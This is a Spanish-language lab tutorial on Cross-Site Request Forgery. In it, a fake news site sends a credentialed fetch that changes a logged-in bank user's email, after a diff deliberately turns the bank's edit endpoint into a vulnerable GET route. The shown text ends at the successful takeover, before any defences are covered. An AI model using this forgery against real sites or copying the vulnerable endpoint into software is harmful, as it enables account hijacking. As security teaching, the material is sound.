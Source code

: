 # CSRF (Cross-Site Request Forgery)

Se trata de un tipo de ataque que engaña al usuario para que ejecute acciones no deseadas en una aplicación web en la que está auntenticado. El atacante se aprovecha de la confianza que el usuario tiene en la aplicación y la utiliza para realizar acciones en su nombre. CSRF utiliza esta confianza para enviar una petición a la aplicación con la cookie de sesión. La aplicación web no tiene forma de distinguir entre una solicitud legítima y una solicitud CSRF, por lo que procesa la solicitud como si viniera del usuario.

En este ejemplo vamos a ver como se puede realizar un ataque CSRF, los errores que se pueden cometer al crear una aplicación web y como se puede evitar este tipo de ataques.

Vamos a tener tres partes funcionando:

- El frontend de un banco.
- El backend de un banco.
- El frontend de un sitio malicioso que recopila información.

## Manos a la obra

> ## Instalación

Hacemos un _npm install_ en el directorio de trabajo que es el 03-CSRF e instalamos todas las dependencias de las 3 apps.

```bash
npm install
```

Podemos arrancar las apps con `npm start`, o arrancarlas mejor individualmente para ver el mensaje por la consola de la app de backend cuando se produzca el ataque.

```bash
npm start

```

Abrimos el navegador y accedemos a la app de frontend con la URL [http://localhost:1234](http://localhost:1234)

![01](assets/01.png)

> ## Pasos

Una vez que arrancamos el frontend y el backend de mybank, podemos logearnos usando:

```text
email: user@email.com
password: test
```

Ya logeado podemos abrir las _dev tools_ del navegador para ver que dentro de _Application_ tenemos almecenada nuestra cookie.

![02](assets/02.png)

Ahora abrimos en nuestro navegador la URL [http://localhost:1235](http://localhost:1235), donde vamos a simular que nos han enviado un correo con un enlace malicioso. Hemos creado un enlace que nos redirige a una web false de noticias, la cual lleva a cabo el ataque CSRF.

En este caso vamos a intentar hacer un cross posting al dominio del banco desde nuestra aplicación maliciosa arrastrando las cookies del banco.

Dentro de la la ruta _frontend-chupichuli/src/index.html_, tenemos un fetch comentado. Como está ahora mismo sería seguro y no se realizaría el CSRF.

```javascript
 <script>
    // Esto es CSRF mediante una petición POST
    fetch("/api/security/edit", {
      method: "POST",
      credentials: "include",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        email: "hack@hacker.com",
      }),
  </script>
```

Si entramos en las _dev tools_ en la consola nos dice que el servidor ha respondido con un 405, método no permitido y no se ha podido realizar la petición. Es decir, estamos seguros que no se ha realizado el ataque.

Esto pasa porque hacemos una petición POST.

![03](assets/03.png)

¿Y si cambiamos por un GET? Esto se consideraría una mala práctica a la horade implementar tu API REST, pero es muy común encontrarlo en API's que no
están bien implementadas.

Este cambio es un error, ya que el método GET no debería modificar datos en el servidor. Si utilizamos el método GET para realizar una petición que modifica datos en el servidor, estamos abriendo la puerta a un ataque CSRF.

Vamos a refactorizar nuestro código:

_frontend-chupichuli/src/index.html_:

```diff
<script>
-       // Esto es CSRF mediante una petición POST
-       fetch("/api/security/edit", {
-         method: "POST",
-         credentials: "include",
-         headers: {
-           "Content-Type": "application/json",
-         },
-         body: JSON.stringify({
-           email: "hack@hacker.com",
-         }),
-       });
+      // Esto es CSRF mediante una petición GET
+      fetch("http://localhost:3000/api/security/edit?" +
+        new URLSearchParams({
+          email: "hack@hacker.com",
+        }), {
+        method: "GET",
+        credentials: "include",
+      })
+        .then((response) => response.json())
+        .then((text) => console.log(text))
+        .catch((error) => console.log(error));
</script>
```

Y vamos a nuestro backend a _backend-mybank/src/pods/security/security.rest-api.js_ al _endpoint_ de _edit_, y cambiamos el método _post_ por _get_.

_backend-mybank/src/pods/security/security.rest-api.js_:

```diff
- .post("/edit", authenticationMiddleware, async (req, res, next) =>
+ .get("/edit", authenticationMiddleware, async (req, res, next) => {
    try {
      const newUserEmail = await userRepository.updateEmail(
        req.userSession?.id,
-       req.body.email,
+       req.query.email.toString(),
      );
      console.log(
        `User ${req.userSession?.id} email changed to ${newUserEmail}`
      );
      res.status(200).json({
        message: "Email changed",
        newEmail: newUserEmail,
      });
    } catch (error) {
      next(error);
    }
  });

```

Volvemos a repetir la simulación de la apertura de nuestra aplicación maliciosa, y vemos que en la consola del _backend_ de _mybank_ nos aparece el mensaje de que el email ha sido cambiado.

![04](assets/04.png)

Ahora podríamos entrar en he perdido mi contraseña y cambiarla sin ningún problema y hacer en la aplicación de _mibank_ lo que quisiéramos.
